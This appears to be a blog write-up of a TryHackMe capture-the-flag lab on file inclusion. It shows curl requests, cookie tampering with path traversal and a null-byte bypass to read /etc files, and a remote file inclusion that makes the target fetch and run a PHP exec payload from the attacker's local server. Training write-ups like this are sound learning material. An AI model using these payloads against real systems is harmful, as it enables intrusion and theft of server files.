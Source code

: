 ```yaml
---
title: "THM: File Inclusion Writeup"

date: 2022-02-20 16:26

# Created: February 20, 2022 4:26 PM
# last-updated: February 20, 2022 10:42 PM
Tags: 
- Cybersecurity
- File Inclusion
- THM

layout: post
headerImage: false
category: blog
---
```


## Hi there !

I was doing the [File Inclusion](https://tryhackme.com/room/fileinc) room on TryHackMe. Most of the tasks, you can follow the instructions; however, I found the last one is challenging, so I thought of do the write-up on the last task—Task 8, giving some my thought process. Let's get started!

## Task 8:

1. Capture Flag1 at `/etc/flag1`
    
    If you try to get the file from the input, nothing is responding back. You can also try on the URL `[http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1](http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1)` , there is nothing responded. Well, if you look at the `Network` tab on the Firefox and see that it's calling with `GET` method. As the hint suggests: try using `POST` method. Alright, in my case, I'm using the `curl` on command line:
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=/etc/flag1"
    ```
    
    Hooray, the flag has been revealed!
    
2. Capture Flag2 at `/etc/flag2`
    
    Let's go to `[http://MACHINE_IP/challenges/chall2.php](http://MACHINE_IP/challenges/chall2.php)` You will see as the attached below:
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled.png)
    
    There is no input form, hmm, try adding the parameter to the URL 🤔 Let's try, `[http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2](http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2)` Nothing happens.
    
    Let's look at the `Development tool`, something interesting might be there. Look at the `Network` tab, the request is calling with `GET`; what if it's a `POST` , I try `curl` as the previous exercise, but still nothing happens. Hmm, the hint says that **"Checks the cookie"**, alright, it shows `THM=Guest` , let's try changing to `THM=admin` (you can change the cookie on `Storage` tab), then refresh the page... Oo-oh, something's changed!
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%201.png)
    
    It has been revealed that there's the vulnerability on `cookie`, let's try changing to `/etc/flag2` There is some sort of input validation for `include()` function there, see below.
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%202.png)
    
    Fine, let's do the path traversal: `THM=../../../../etc/flag2` And we got it! I'm not gonna show the flag 🤭
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%203.png)
    
3. Capture Flag3 at `/etc/flag3`
    
    Let's go to the challenge 3 page. There is an input, so try getting `../../../../etc/flag3`
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%204.png)
    
    Seems like it sanitizes the input and adds `.php` to the file name, smart! But, what if we request it using `curl` with `POST` Let's try.
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall3.php -X POST -d "file=/etc/flag3%00"
    ```
    
    You will get a warning that the output can mess your terminal, so don't forget to pass the output into a file! and let's look at your output file! 😎
    
4. Gain RCE in **Lab #Playground** `/playground.php` with RFI to execute the `hostname` command. What is the output?
    
    Follow the `Task 6: Remote File Inclusion - RFI` lab, but instead of `<?PHP echo "Hello THM"; ?>` , you will do
    
    ```php
    <?PHP print exec('hostname'); ?>
    ```
    
    Before calling our `cmd.txt` , don't forget to launch the local server. You can use `http.server` in Python3:
    
    ```python
    $: python3 -m http.server 8080
    ```
    
    In my case, I'm using port 8080; when I call via the url, it will be `[http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt](http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt)` There we go! The flag is on the screen.
    

We’re done 🎉